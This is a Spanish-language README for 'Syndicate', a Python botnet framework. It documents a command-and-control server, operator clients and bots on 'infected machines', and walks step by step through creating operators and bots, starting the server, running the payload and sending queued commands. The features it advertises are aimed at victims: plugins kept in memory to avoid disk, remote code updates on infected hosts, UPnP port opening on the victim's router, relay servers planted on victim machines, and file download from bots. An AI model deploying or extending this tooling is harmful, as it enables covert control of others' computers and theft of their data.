





# Syndicate Project
> Syndicate es un Framework totalmente escrito en Python (**3**) para crear Botnet's, así es, no es sólo para crear una botnet es para crear cientos o miles, además...

Tratare de englobar todas las caracteristicas posibles de Syndicate, espero no me falté nada :)...

## Caracteristicas

* Mutiples conexiones a la vez
* Cifrado hibrido en las conexiones. Usando AES256 y RSA a nuestro favor podremos cifrar nuestras comunicaciones oficiales entre Evie's (**Ŝervidor**), Jacob's (**Ciente-Administrador** de los **Rook's**) y Rook's (**Cliente-bot**).
* Cifrado simétrico en las bases de datos, tanto de **Evie**, como la de los **rook's**. Aunque en los accesos públicos también se usá el mismo esquema.
* Red punto a punto. La red de los Rook's, no es igual a la de los Evie's, aunque puede haber comunicación entre ellas.
* Multi-usuario. El administrador del servidor se encarga de crear tanto usuarios Jacob's cómo Rook's con sus respectivos privilegios.
* Compartir Rook's entre Evie's.
* Comunicación por servidores o lo que quiere decir, que creando una red entre Evie's puede hacer pasar cada paquete a una dirección o podría decirse nodos intermedios hasta llegar a un punto final o nodo final. La red está diseñada para que no se pueda saber que dirección envío qué y dónde, exceptuando algunas cosas qué ya explicaré después y además se tiene que configurar toda la red manualmente; Eso brinda más seguridad.
* Uso de proxy's para mayor privacidad.
* Sistema antí-fuerza bruta. Es relativo. Relativo según las configuraciones que ejerce el administrador y el mismo usuario. porque el administrdor decide cómo **Evie**, va a bloquear a un usuario, cuándo y porqué. Dejaré la explicación más adelante.
* Los complementos se pueden actualizar de forma transparente o lo que quiere decir, que sí tenemos una máquina infectada podremos cambiar el código desde el servidor y ejecutarlo en la máquina correspondiente.
* Además del cifrado que viene incorporado, podemos agregarle una capa más con **https**
* Puedes crear tu propia forma de comunicarte, por lo tanto tiene dinamismo.
* Los complementos le temen al disco duro, prefieren quedarse en memoria.
* En el lado de los **rook's** podemos hacer que el router de la victima abra un puerto con UPnP (**Sí está disponible**)

**Nota**: Los privilegios sólo son válidos para los **Jacob's**

### Tipos de configuración

Existen dos tipos de configuración para que el funcionamiento de Syndicate sea satisfactorio, también sus razones de esta división:

* [Configuración Dinámica](auto-config.sh): Este tipo de configuración puede cambiar en plena ejecución de [Evie](evie.py) dependiendo de lo que haga el administrador del servidor.
* [Configuración Estática](conf/global_conf.py): También se puede llamar configuración global, porque en la mayoría de utilidades, herramientas y todo lo que tenga que ver con **Syndicate** la utiliza; además esta no cambia en plena ejecucion.

### Tipos de usuario

En Syndicate Project trato de implementar diferencias entre usuarios para simplificar las explicaciones; En el susodicho proyecto se puede encontrar cuatro tipos de usuario:

* **Administrador del servidor**: El administrador del servidor es una pieza obligatoria para armar el tablero. Éste se encarga de crear, configurar, manejar y mucho más, de lo que tenga que ver con el funcionamiento interno de Syndicate.
* [Jacob](jacob.py): Él es el cliente-administrador de los **rook's**. Jacob podrá controlar tantos *rook's* cómo el *Administrador del servidor* desee.
* [Rook](rook.py): El cliente-bot que se encarga de hacer lo que le pida **Jacob**
* **Public**: Yo no diría que es un usuario en sí, se podría decir que es un cliente que quiere usar nuestros servicios públicos cómo:
  
  - getPubKey: Obtener la **Clave Pública** de [Evie](evie.py); Puede tener muchos fines esta operación, pero la más importante es cuando compartirmos un rook.
  - saveData: Guarda los datos de perfil del rook
  - resend: Re-envía datos a otro nodo, tanto un nodo final como podría ser un nodo intermedio
  - sendSOS: Comunicación estilo correo electrónico entre Evie's (Incluso envío de archivos)
  
  **Nota**: *Los servicios públicos se pueden bloquear desde [el archivo de configuración dinámico](auto-config.sh)*

## Aclaraciones

Tengo que explicar algunas cosas que iré mencionando poco a poco a lo largo de este documento:

* **Redirector**: Es un **Rook** que pasa hacer un **servidor** (No un **Evie**) dentro de la máquina infectada; consiste en crear un servidor capaz de recibir datos, almacenarlos en una base de datos cifrada dentro de la misma máquina victima, para que luego el administrador del servidor, pueda conectarse, descargar los datos y simular ser **Evie**, con el único fín de obtener un resultado y enviarselo a un rook de forma transparante o como si no fuera sucedido nada.
  
  El *redirector* es buena opción, cuando deseas crear un "Backup" dentro de las máquinas infectadas *¿Por qué?*, ¿Te imaginas que tu servidor central callerá? y luego cuando lo vuelvas a levantar ya es muy tardé, no tienes como recuperar la perdida de datos; hay es cuando entra *redirector* al rescate. **Claro que necesitas abrir un puerto en el corta fuegos de la victima. Syndicate se encarga de crear la conexión, tú te encargas de todo lo demás**.
  
* **Hash dinámico**: En syndicate se usa un **Hash dinámico**, para hacer todo lo posble para evitar un ataque de fuerza bruta o por diccionario, usando *iteraciones*, *Número de seguridad*, *Número de disminución* y *Caracteres de seguridad*; todo esto tiene que ver con el algoritmo utilizado, pero haciendo una aclaratoria:

  - **Iteraciones**: Las iteraciones son el número de veces que se repité el proceso.
  - **Número de seguridad**: El número de seguridad se multiplica primero por el mismo y el resultado se usa para delimitar la ofuscación de caracteres de seguridad y luego en la siguiente iteración (**Si es que la hay**) disminuye usando el número de disminución.
  - **Número de disminución**: El número de disminución se encarga de disminuir el número de seguridad por cada segunda iteración.
  - **Caracteres se seguridad**: Los caracteres de seguridad se codifican a base64 y se "parten" y ofuscan usando el número de seguridad y disminución, para luego sumarlos con el resultado verdadero, que quiere decir, el hash.
  
  **Nota**: *El hash usa la siguiente función: sha256( sha512( string ).digest() ).hexdigest()*
  
* **Token de Acceso**: Usado para verificar que tenga acceso público al sistema y cifrar los datos, posteriormente se usaría algún servicio antes mencionado.
  
* **Clave secreta**:  La clave secreta cifra algunos datos (**Cómo la dirección URL de los nodos**) antes de usar "**resend**" o un reenvio de paquetes en una red, porque que si llega a hacer interceptada, no se pueda "leer" esos datos, por eso su nombre, ésta sólo se debe compartir con las personas de confianza, igual que pasa con el *token de acceso*.

* **Clave única**: La clave única es una clave generada aleatoriamente en la creación de un nuevo **Jacob**, es importante darsela al administrador correspondiente, porque gracias a ella puede acceder.

  La clave única cada vez que inicie sesión, cambiará, eso es para mantener aún más seguro la estructura.

* [Jacob](jacob.py) y [Rook](rook.py): Quiero aclarar, a pesar de que la aplicación [payload.py](payload.py) es la que interectua con el servidor, no es más que una simple herramienta de pruebas, *el conejo debajo del sombrero* enrealidad es [rook.py](rook.py); mientras que para controlar a los **rook's** sería [control.py](control.py) en este caso es [jacob.py](jacob.py).

  Hablare de ésto, en otra sección.

**Notas**:

* Tú, como administrador del servidor te debes encargar de repartir a personas de confianza el token de acceso, claro sí es qué desean usar los servicios públicos.
* El token de acceso se tiene que usar mayormente para **Compatir un rook** o usar **resend**.
* En el caso de usar **resend**, tiene que usar además del token de acceso, la clave secreta.
* Prefiero que usted usé [sendSOS](sendSOS.py) y se comunique con el **Evie** que desee, para que tenga más seguridad en sus datos y sin limitaciones por parte de servidores externos. Aclaro ésto, porque así es la mejor manera de enviar claves secretas de forma segura. Hay otras alternativas, pero es bueno que uno mismo sea el propio servicio y no depender de otros.
* Tenga absoluto cuidado con los números y caracteres de seguridad, pueden volver el proceso más lento, pero eso no es tan malo, porque si un atacante quiere hacer fuerza bruta, tiene que esperar a que el servidor genere el hash y luego verificar si es correcto o no. ¿Una maravilla no? :')
* Sí quieres saber más acerca del algoritmo, puedes hacerlo [Aquí](modules/Ciphers/db_hash.py)

## Funcionamiento de la Red

Algunas veces es mejor dejar una simulación en vez de palabras, por lo tanto [Aquí](https://onodo.org/visualizations/98665), podrá encontrar el cómo sería la red con todas las caracteristicas y [Aquí](https://onodo.org/visualizations/98748/) el cómo sería cuando **Jacob** envía datos a través de varios nodos en diferentes países.

**Nota**: Aunque en [esta](https://onodo.org/visualizations/98748) demostración no explico como es el proceso en que se usan los datos encriptados, en la practica sí pasa eso.

Ahora pasemos a la explicación: Es sencilla la red, hay que saber usarla y cuándo, pero para poder entenderla hay que crear desde un principio lo que necesitamos e ir aumentando a medida que vayan incrementando los conocimientos.

Primero crearemos un **Jacob** (**Administrador de los Rook's**):

**Pero** antes de hacer éso, quiero aclarar que algunas herramientas necesitan acceso seguro a la base de datos que está encriptada, por lo tanto sí usted no introducé los parámetros se le va abrir un pequeño formulario requiriendo los datos. Sí no me cree, mirelo usted o mejor aún Pruébelo:

```bash
./addadmin.py -u <Nombre de usuario> -p <Frase de contraseña> -P <Frase de contraseña de la clave privada>
* Datos para desencriptar la frase de contraseña *
  ----------------------------------------------

Ingrese la frase de contraseña:
: **************
Ingrese los caracteres de seguridad:
: abcdefghijklmnopqrstuvwxyz1234567890
Ingrese el número de iteraciones:
: 43
Ingrese el número de seguridad:
: 30
Ingrese el número de disminución:
: 18
Se guardo satisfactoriamente en -> conf/pass
```

**Notas**:

* Lo que acabo de introducir se genera lento en mi computadora, usted tiene que introducir lo necesario para obtener una mayor seguridad pero que el proceso no se vuelva tan lento; al fin y al cabo usted decide.
* Sí ejecutan alguna herramienta que requiera la información para desencriptar la base de datos, se guardará en vez de comparar en caso de que **conf/pass** no exista
* **conf/pass** es guardado con permisos "**444**", por favor verifique que sea así con "ls -l conf/pass" o si no hagalo de forma manual: chmod 444 conf/pass una vez ha sido creada.

¿Ven?, sería tedíoso que tuviera que introducir todo esas cosas, mejor usamos los poderes de la linda terminal :'D:

```bash
# Primero veamos que regla estamos usando para guardar los comandos en el historial:
echo $HISTCONTROL
ignoreboth
# ¡Bien!, esa es la regla perfecta.
# Eso nos servirá cuando para cuando introducimos un comando y no queramos que se guarde en el historial, ya que la idea es que no se registre una contraseña o algo sensible.
# Así que ahora guardemos lo que necesitamos en una variable
 declare -x params='-db-passphrase <La frase de contraseña> -db-iterations <Iteraciones> -db-chars <Caracteres de Seguridad> -db-decrement-number <Número de disminución> -db-security-number <Número de seguridad>'
# Cómo pueden notar, usé un espacio antes de escribir el comando, para que no se almacene en el historial.
# Claro, pueden hacer éso o pueden crear un script y lo cargan usando "source" o ".", pero se los dejo para la casa...
```

Ahora simplemente puede ejecutar:

```bash
./addadmin.py -u <Nombre de usuario> -p <Frase de contraseña> -P <Frase de contraseña de la clave privada> $params
```

Al ejecutar se dará cuenta que le pide una confirmación:

```
-*- ¿Es correcta la siguiente información? -*-

Nombre de usuario       ::   <Nombre de usuario>
Frase de contraseña     ::   <Frase de contraseña>
Contraseña RSA          ::   <Frase de contraseña de la clave privada>
Iteraciones             ::   43
Número de seguridad     ::   30
Número de disminución   ::   18
Caracteres de seguridad ::   abcdefghijklmnopqrstuvwxyz1234567890
Privilegios             ::   ALL
Max. de bot's           ::   0 (infinito)
Tamaño de la clave      ::   2048
¿Root?                  ::   0
->
```
Debe introducir "**1**" para continuar ó "**0**" para salir, aunque "**CTRL-C**", también ayuda.

**Notas**:

* Sí no quiere que le confirmé los datos, usé "-no-confirm".
* Cómo puede observar, hay caracteres rellenados automáticamente, puede editarlos introduciendo los parámetros correspondientes cómo: "**-i, --iterations**" para las *Iteraciones* "**-sn, --security-number**" para el "*número de seguridad*", "**-c, --security-chars**" para los *Caracteres de seguridad* y "**-d, --decrement-number**" para el *Número de disminución* o puede editarlos en el [archivo de configuración global](conf/global_conf.py).
* Ser **root** no es lo mismo en **Linux** que en **Syndicate**, **no se confunda**; significa que todos los **rook's** ahora pertenecerán a todos los **jacob's** que son **root**, aunque esto es relativo, ya que si el **maximo de bot's** es mayor a "**0**" no se incluirá si llegó a su maximo.
* Pude usar [el generador de hashes de prueba](hash_generator_test.py) para **Syndicate**, si desea saber cuanto puede durar la generación y la comparación de su Hash antes de salir al campo de batalla.

Esperamos unos instantes, y para confirmar que todo salío perfecto, ejecuté:

```bash
./addadmin.py -show $params
```
Ese comando le mostrará todos los **Jacob's** registrados.

Ahora pasemos a algo mejor, creemos nuestro **rook** para un **jacob**:

```bash
./addbot.py -u <Nombre del rook> -p <Frase de contraseña> -P <Frase de contraseña de la clave privada> -a <Administrador> $params
```

Vemos un parámetro nuevo, "**-a**" o también podría llamarse "**--admin**". Si no razonaste correctamente, te digo que es para agregar a los **Jacob's** a el nuevo **rook**.

**Notas**:

* Puedes crear tantos **rook's** para **jacob's** dependiendo del **maximo de bot's**
* El parámetro "**-a, --admin**" es de tipo **lista**, lo que quiere decir que para agregar a más de uno, tienes que usar una "**,**" (**coma**) y sí el nombre tiene espacios usa comíllas cómo apoyo. Ejemplo: **--admin "usuario, soy un usuario, otro"**

Eso no es todo, necesitamos configurar [Evie](evie.py) usando [auto-config.sh](auto-config.sh) mas los parámetros ya utilizados en anteriores herramientas.

```bash
./auto-config.sh $params
```
Usted vería cada **Clave**, **Sub-Clave** y **Valor**; los segundos de duración por cada uno, varian dependiendo de sus recursos, esto se debe a que se está encriptado cada dato.

A pesar de que se muestre la configuración al finalizar, tal vez usted quiera apreciarla para un después. Lo puede hacer así:

```bash
./evie-config.py -print-configuration $params
```

**Notas**:

* Aunque [auto-config.sh](auto-config.sh) es un script, la herramienta que tiene el poder de hacer esta mágia es [evie-config.py](evie-config.py), pero es mejor automatizar todo, para ahorrar tiempo.
* Puede obtener más información del significado de las **Claves**, **Sub-Claves** y **Valores** desde el mismo [Archivo de Configuración](auto-config.sh).

*Ahora si que viene lo bueno*

Ejecutamos [evie.py](evie.py) para iniciar el servidor:

```bash
 ./evie.py -P <Frase de contraseña de la clave privada> $params
```

Sí ejecutamos por primera vez, verá algo así:

```
(00:33:04 ~ 26/11/2019)[Evie:ADVERTENCIA]:---:!: El par de claves aún no son son generados ... generando ...
(00:33:04 ~ 26/11/2019)[Evie:PERSONAL]:------:+: Tamaño a generar: "2048"
(00:33:11 ~ 26/11/2019)[Evie:INFORME]:-------:*: El par de claves fueron generadas ...
(00:33:11 ~ 26/11/2019)[Evie:INFORME]:-------:*: Desencriptando ...
(00:33:12 ~ 26/11/2019)[Evie:INFORME]:-------:*: ¡Clave desencriptada!
(00:33:12 ~ 26/11/2019)[Evie:INFORME]:-------:*: Generando clave secreta ...
(00:33:12 ~ 26/11/2019)[Evie:PERSONAL]:------:+: Clave secreta generada -> b22f 34b4 1c48 b8dd dad3 dcfc d0b6 986d 081f 80f3 959d 3de0 1075 6ea1 dfc2 ad45
(00:33:12 ~ 26/11/2019)[Evie:INFORME]:-------:*: Generando un nuevo token de acceso ...
(00:33:12 ~ 26/11/2019)[Evie:PERSONAL]:------:+: Token de acceso generado -> 8502382584368ce06c336c793750815f400697daaff7dc8244e849b75135d638
(00:33:12 ~ 26/11/2019)[Evie:ADVERTENCIA]:---:!: No se encontraron los requerimientos necesarios para usar el protocolo de forma (más) segura. Usando HTTP ...
(00:33:12 ~ 26/11/2019)[Evie:PERSONAL]:------:+: Escuchando en :: http://0.0.0.0:8081/hmKReYEJrMWB8l48yvsENaLlMT1ijqIiU2nU6RGiKnanCZEkimT0lh2xW-xS1xYP6rJX1uWmxbp2bOeSVCCfJQ
```

No explicaré todo, porque hay cosas que son sencillas y otras ya las explique, pero sí que hay algo nuevo. *¿Qué deminios es esa ruta?*; la ruta se genera de forma aleatoria y segura, puede usar los archivos de configuración para evitarlo, pero recomiendo que lo deje así.

Lo negativo de usar una ruta aleatoria es que si el servidor se "apaga" y se inicia nuevamente, tendrá otra ruta, lo que quiere decir que los **Jacob's** tendran que saberlo; es recomendable sólo cuando hay pocos **Jacob's**.

Ahora para que **Evie** tenga algún sentido en la vida, que tal si ejecutamos la [Carga útil](payload.py), pero antes quiero aclarar algo que tiene que ver con los complementos, *aunque aún no me adentraré en aguas turbulentas, por ahora estamos en la orilla del mar* (**Eso es en otra sección**). Prosigamos:

Tenemos que tener en cuenta que los complementos necesitan requerimientos, cosa que mencionaré en la instalación, aunqué podemos edítar [El archivo de configuración del payload](payload_conf/modules.py) y remover o agregar lo que necesitemos.

Bien, una vez aclarado, necesitamos la **Clave Pública de Evie** y la **Clave Privada del Rook**; La obtenemos de la siguiente forma:

```bash
./show_server_keys.py $params | more
...
Clave Pública:
...
Clave Privada:
...
```

Usamos "**more**" para delimitar la salida y ver lo que necesitamos, **la clave pública**. La seleccionamos, copiamos y la guardamos en una ruta segura, cómo "**/tmp**":

```bash
nano /tmp/<Nombre de la clave pública> # Una vez abierto "nano" pegamos la clave pública y la guardamos
...
```

Hacemos el mismo procedimiento, pero esta vez será para la **Clave Privada del Rook**:

```bash
 ./addbot.py -show -option keys -P <identificador del rook>:<Frase de contraseña para desencriptarla> $params
```

**Nota**: Puede asignarle permisos de escritutra y lectura dependiendo de su usuario al par de claves *para mayor seguridad*.

*Cómo ve, deje un espacio para que no se guarde el comando en el historial*

Esta vez vemos nuevos parámetros con argumentos interesantes:

* **-show**: Mostramos los usuarios disponibles.
* **-option**: Usamos una clave especifica para ver algo especifico de la información del usuario. Podemos usar el parámetro "**-h, --help**" para ver la ayuda dónde también nos mostrara las claves que acepta.
* **-P**: La frase de contraseña de la clave privada, siguiendo la siguiente sintaxis: \<identificador del rook>:<Frase de contraseña para desencriptarla\>

Buscamos el rook y la clave privada desencriptada, hacemos el mismo procedimiento que hicimos con la clave pública de Evie

```bash
nano /tmp/<Nombre de la clave privada> # Una vez abierto "nano" pegamos la clave privada y la guardamos
...
```

Ahora sí, ejecutemos el [Payload](payload.py)

```bash
./payload.py -b <Identificador del Rook> -pass <Frase de contraseña del Rook> -a <Dirección de Evie> -p <Puerto> -pub-key <Clave pública de Evie> -priv-key <Clave privada del Rook> -proto <Protocolo, puede ser http o https> -sleep-check <Intervalos en que se hace una petición para ver si hay comandos en cola> -db-path <El nombre de la base de datos> -db-pass <Frase de contraseña de la base de datos>
```

Explico poco a poco lo que siento que pueden tener dudas:

* **-sleep-check**: Rook hace una petición a el/los servidor/es para verificar si algún **Jacob** propuso un comando en cola cada intervalo de segundo determinado
* **-db-path**: Los rook's tienen bases de datos que se almacenan en el directorio temporal del sistema operativo (**encriptada**, por supuesto), si no especificamos un nombre se genera de forma aleatoria y si ejecutamos otra vez el *payload* tendremos otra ruta aleatoria, por éso, es mejor especificarla.
* **-db-pass**: La frase de contraseña para cifrar la base de datos

**Nota**: Puede usar el parámetro "**-no-verbose**" para que no imprima el resultado de alguna operación

*Esto es una prueba, por lo que todo se hará por la consola, ya hablare sobre como usar la programación a nuestro favor.*

Necesitamos interactuar con el *Rook* para ello ejecutamos [control.py](control.py).

```bash
./control.py $params
```

*Puedes observar en las **Las capturas de pantalla** cómo se vería*

**Nota**: Quiero aclarar que la aplicación es una **DEMO**, no es para entornos reales, por lo tanto no te sorprendas si es igual de bonita que **Vim** ;).

Nos mostrara primero un panel de inicio de sesión, tenemos que rellenar los datos deacuerdo a lo aprendido

Al terminar de iniciar sesión lo primero que hará será enviar un comando "*ping*" para verificar si sus credenciales son correctas, luego enviara el comando "*listBots*" para obtener la lista de rook's que le pertenecen.

Sí ocurre un error puede ser por los siguientes motivos:

* No tiene privilegios para listar rook's o ejecutar *ping*
* Ingresó una ruta incorrecta
* El servidor lo está bloqueando
* El servidor no existe
* Ingresó datos incorrectos
* Faltán **valores**
* No existe la clave pública o la clave privada

*Eso es sólo unos cuantos motivos por lo que no podrá iniciar sesión, recuerde tiene que ingresarlos exactamente cómo se creó; exceptuando a **iterations**, porque si usted coloca un número mayor al verdadero pero los demás datos son correctos, no habrá problemas.*

### Comandos

En la segunda captura de pantalla en la sección **Capturas de Pantalla**, podemos observar varios *comandos* en la parte inferior, esta es su explicación:

* **listBots**: Lista los **rook's** disponibles en el buffer
* **getData**: Muestra los datos de un **rook**
* **getCommands**: Obtiene los comandos que serán ejecutados en la consola del sistema operativo
* **shareBot**: Comparte un **rook** a un **evie**
* **listServers**: Lista los servidores secundarios del **rook** seleccionado que son los servidores a los cuales lo compartimos
* **delServer**: Borra un servidor secundario
* **getToken**: Obtiene el token de acceso público
* **writeNodes**: Crear los nodos para interactuar con otro **Evie**
* **addNode**: Agregar un nuevo nodo a la red
* **getNodes**: Obtiene todos los nodos de un identificador especifico o puede usar '**all**' para mostrar todos
* **useNodes**: De todos los identificadores de los nodos tenemos que seleccionar uno y partir de aquí podremos usar la red para interactuar con un **Evie**
* **updateNode**: Actualiza la información de un nodo. **Si es el nodo final** sólo puede actualizar la dirección URL
* **access_list**: Muestra una lista de todas las veces que el **Jacob** que se este usando ha iniciado sesión
* **ping**: Mandas *ping*, recibes *pong*
* **noUseNodes**: Sí estás usando una red, puedes dejar de usarla con este comando
* **updateListBots**: Actualiza la lista de **rook's**
* **listFiles**: Muestra los archivos del **rook** que esten almacenados en **Evie**
* **download**: Descarga un archivo del **rook** que este almacenado en **Evie**
* **upload**: Subé un archivo a **Evie**
* **getPeers**: Obtiene la lista de **Puntos** en la red, con su respectiva información.
  **Los puntos serián son enrealidad los "*redirectors*"**
* **sharedFiles**: Obtiene los archivos que hemos subido
* **addQueue**: Manda un comando a la cola de comandos del **rook** usando el meta-lenguaje **Sumerio**. **Ya explicaré que es ésto**

*Los comandos en Syndicate también son los privilegios de un **Jacob** *

### Meta-lenguaje *Sumerio*

Sumerio es un meta-lenguaje que se utiliza en algunas partes del proyecto **Syndicate**, para que pueda actuar cómo una interfaz sencilla de usar, entre **Python** y usted el **usuario**. Acontinuación explicaré su usó:

```
;e;<clave>=<tipo de dato>:<valor>
```

* **;e;**: Se le llama **etiqueta**, sólo debe ser un carácter y debe estar encerrado con un punto y coma.
* **<clave>**: La clave no tiene mucha ciencia, es un diccionario siempre debe estar seguida de una clave y un valor
* **<tipo de dato>**: Debemos conocer algunos tipos de datos en Python que son usados en Syndicate.
  - str: String o un texto simple
  - int: Cuando queremos que sea un número
  - bool: Booleano, **True** en Sumerio es cualquier dato menos **0** o ningún dato
  - file: Abré un archivo
  - yaml o json: Abré un archivo que este codificado en json o yaml y lo parsea.
  *Tenga en cuenta que se usa yaml seguro, algunas sentencias no se podrán leer. Cómo las tuplas de Python*
  - null: No es un tipo de dato, pero sirve para dar cómo resultado "None"
  - list o tuple: Una lista o una tupla, actuan de la misma forma, pero en el caso de la tupla genera una, a partir de una lista.

**Nota**: En el caso de usar una lista o una tupla necesitamos especificar el separador y el tipo de dato de cada dato de la siguiente manera:

Sumerio:

```
;j;<clave>=<list o tuple>:,<tipo de dato>:<valor>
```

**Nota**: Pueden notar que use una **j** cómo separador, pero pueden usar cualquier carácter que no sea una nueva línea (**\n**)

*Un ejemplo sería mostrar la lista de compras, mostrando cada producto y cuanto compraremos de él*

Ejemplo:

```
;c;compras=list:,tuple:.str:pescado.int:3,tuple:-str:patilla-int:10
```

El resultado en Python sería:

```python
{'compras': [('pescado', 3), ('patilla', 10)]}
```

